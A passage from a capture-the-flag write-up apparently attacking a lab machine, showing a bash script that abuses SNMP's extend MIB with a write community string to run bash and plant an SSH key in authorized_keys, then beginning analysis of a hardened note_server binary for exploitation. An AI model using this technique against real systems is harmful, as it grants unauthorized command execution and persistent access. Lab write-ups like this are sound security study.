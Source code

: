 {% include image.html image_alt="81c0bfb3.png" image_src="/d6c24de1-704b-4907-af66-242191337928/d5bf50e6.png" %}

Alternatively, we can utilize `snmpset` to write a SSH public key we control to `Debian-snmp`'s `authorized_keys`. Prior to that, I've already established that `/var/lib/snmp/.ssh/authorized_keys` exists. I wrote a simple shell script to do that.

<div class="filename"><span>ssh.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.195
RW=SuP3RPrivCom90

ssh-keygen -t ed25519 -f snmp

snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c $RW $HOST \
"nsExtendStatus.\"ssh\"" = createAndGo \
"nsExtendCommand.\"ssh\"" = /bin/bash \
"nsExtendArgs.\"ssh\"" = "-c \"echo $(cat snmp.pub) >> ~/.ssh/authorized_keys\""
```

Note that I generated a SSH keypair using `ed25519` because it has a shorter pubkey string, otherwise SNMP will complain like so.

```
nsExtendArgs."ssh": Value out of range (Value does not match DISPLAY-HINT :: {(0..255)})
```

### File Analysis of `note_server`

Let's make a note of the `libc` version used in `note_server`.

{% include image.html image_alt="8029f1b0.png" image_src="/d6c24de1-704b-4907-af66-242191337928/8029f1b0.png" %}

OK. That's the same as [libc6_2.27-3ubuntu1_amd64.so](https://libc.blukat.me/d/libc6_2.27-3ubuntu1_amd64.so). Let's download a copy; we'll be needing it later when we start to develop the exploit.

Looking at the source code, we notice that the program is compiled with all the security protections.

```
# gcc -Wall -pie -fPIE -fstack-protector-all -D_FORTIFY_SOURCE=2 -Wl,-z,now -Wl,-z,relro note_server.c -o note_server
```

Check out `checksec` in `gef`.

{% include image.html image_alt="9623285f.png" image_src="/d6c24de1-704b-4907-af66-242191337928/9623285f.png" %}

### Vulnerability Analysis of `note_server`

Although `note_server` has almost all the security protections, the source code provides vulnerable primitives that allow us to write into a 1024-byte buffer, copy any segment (by offset and size) of the buffer to the end of it, and write the contents of the buffer to the socket.
